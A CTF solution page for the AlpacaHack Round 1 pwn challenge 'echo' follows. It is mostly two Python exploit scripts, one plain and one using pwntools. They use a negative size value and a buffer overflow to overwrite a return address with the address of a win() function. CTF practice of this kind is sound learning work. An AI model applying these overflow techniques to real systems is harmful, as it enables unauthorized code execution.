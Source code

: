 # AlpacaHack
- [AlpacaHack](https://alpacahack.com/)
- [AlpacaHack Round 1 (Pwn)のWriteup - CTFするぞ](https://ptr-yudai.hatenablog.com/entry/2024/08/19/035647)

# AlpacaHack Round 1 (Pwn) / echo
(echo)[https://alpacahack.com/ctfs/round-1/challenges/echo]

**exploit1.py**
```python
#!/usr/bin/env python3
import sys
import struct
def p64(x):
    return struct.pack("<Q", x)
# objdump -t echo | grep -w win | cut -d ' ' -f 1
win = p64(0x00000000004011f6)
sys.stdout.buffer.write(b"-2147483648"+b"\x0a")
sys.stdout.buffer.write(b"A"*(0x100+24))
sys.stdout.buffer.write(win+b"\x0a")
```

**exploit2.py**
```python
#!/usr/bin/env python3
from pwn import *
binary = "./echo"
context(arch = 'amd64', os = 'linux')
elf = ELF(binary)
win = elf.symbols["win"]
print("[#] addr of win:", hex(win))
#io = process(binary)
io = remote("127.0.0.1", 5000)
io.recvuntil(b"Size: ")
io.sendline(b"-2147483648")
io.recvuntil(b"Data: ")
io.sendline(b"A"*(0x100+24) + p64(win))
io.interactive()
```

